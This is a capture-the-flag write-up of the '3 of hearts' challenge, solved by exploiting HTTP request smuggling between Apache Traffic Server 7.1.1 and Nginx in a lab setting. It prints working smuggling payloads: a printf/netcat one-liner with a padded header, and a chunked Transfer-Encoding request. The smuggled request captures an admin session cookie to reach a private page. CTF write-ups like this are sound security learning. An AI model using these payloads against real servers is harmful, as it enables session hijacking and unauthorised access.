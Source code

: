 # 3 of hearts

> Solved too late by : Starry-lord


    Port 33337

I solved this one after the competition but still felt compelled to share the process.

This one gave me a hard time, firstly because I hadn't seen HTTP request smuggling scenarios before. 

Trying to connect to the target IP:33337 redirects to a domain name 


    threeofhearts.ctf.net

And displays an empty page with only the following content:


    <script>console.log(zp2)</script>

Some snooping showed me the initial request was made to an Apache traffic server 7.1.1 and the second one to an Nginx server 1.15.5. 
After a few research I realized there wasn't much resource on the subject, but here's what I found :


- PortSwigger Web academy
- https://medium.com/@knownsec404team/protocol-layer-attack-http-request-smuggling-cc654535b6f 
- https://regilero.github.io/english/security/2019/10/17/security_apache_traffic_server_http_smuggling/

Sadly no time for going through academy through the ctf but will definitely look into it in a nearby future. 

I used 2 ways to try and see what was going on :

## Way n°1 - CLI
    printf 'GET_/somthingthatdoesntexist_HTTP/1.1\r\n'\
    'Host:threeofhearts.ctf.net\r\n'\
    'X:_"%65534s"\r\n'\
    'GET_http://threeofhearts.ctf.net/_HTTP/1.1\r\n'\
    '\r\n'\
    |tr " " "1"\
    |tr "_" " "\
    |nc -q 1 172.17.15.117 33337

So here we manage to get double request by adding 65534 empty spaces between 2 get requests. 

First one results in a 400 error and second request goes through and shows the content of the internal website. 


    ┌──(kali㉿kali)-[~/.starlord]
    └─$ printf 'GET_/somethingNotThere_HTTP/1.1\r\n'\
    'Host:threeofhearts.ctf.net\r\n'\
    'X:_"%65534s"\r\n'\
    'GET_http://threeofhearts.ctf.net/out/save.txt_HTTP/1.1\r\n'\
    '\r\n'\
    |tr " " "1"\
    |tr "_" " "\
    |nc -q 1 172.17.15.117 33337
    HTTP/1.1 400 Invalid HTTP Request
    Date: Sun, 05 Dec 2021 23:34:29 GMT
    Connection: keep-alive
    Server: ATS/7.1.1
    Cache-Control: no-store
    Content-Type: text/html
    Content-Language: en
    Content-Length: 220
    
    <HTML>
    <HEAD>
    <TITLE>Bad Request</TITLE>
    </HEAD>
    
    <BODY BGCOLOR="white" FGCOLOR="black">
    <H1>Bad Request</H1>
    <HR>
    
    <FONT FACE="Helvetica,Arial"><B>
    Description: Could not process this request. 
    </B></FONT>
    <HR>
    </BODY>
    HTTP/1.1 200 OK
    Server: ATS/7.1.1
    Date: Sun, 05 Dec 2021 23:34:29 GMT
    Content-Type: text/plain
    Content-Length: 151
    Last-Modified: Sun, 05 Dec 2021 23:08:15 GMT
    ETag: "61ad465f-97"
    X-Requested: /out/save.txt
    Accept-Ranges: bytes
    Age: 0
    Connection: keep-alive
    
    Params:
    Headers:
            X-Access: 
            Cookie: 
    
    Params:
            cache=0
    Headers:
            X-Access: 
            Cookie: 
    
    Params:
            var1=star
            var2=lord
    Headers:
            X-Access: 
            Cookie: 
    
                                                                                    
    ┌──(kali㉿kali)-[~/.starlord]
    └─$ 
    


## WAY n°2 - BurpSuite

It also worked with just a 0 in between GET requests and would be easier to input to burpsuite. 

The website's content would only show itself in a browser if the request was intercepted and its “Host” header manually set to threeofhearts.ctf.net

From there I found a small page with a PHP form for var1 and var2. By pressing submit, a GET request would be sent to /save.php and populate an entry in the above queried file (/out/save.txt).

There was a /private.php we were denied access to, where the flag was clearly hidden. This is the point where I had most trouble trouble realizing what was going on. 

I knew we had to craft or find the right cookie to access the private.php but didn't understand the fundamental of the HTTP request smuggling attack.

Turns out when you manage to split the request successfully, the second one will be sent from the server, which means admin headers in /out/save.txt in this case.

This was the burp request :


    GET / HTTP/1.1
    Host: threeofhearts.ctf
    Transfer-Encoding: chunked
    Content-Length:53
    
    0
    
    GET /save.php?var1=something&var2=something HTTP/1.1
    

Then making a request to /out/save.txt showed the following :


    Headers:
      X-Access: private
      Cookie: PHPSESSID=theAdminPhpSessionId
      
    Params:
      var1=something
      var2=something
    Headers:
      X-Access:
      Cookie:

visiting /private.php with those header gave the un-guessable page link for the flag.


![](https://i.imgur.com/VPSwASa.png)



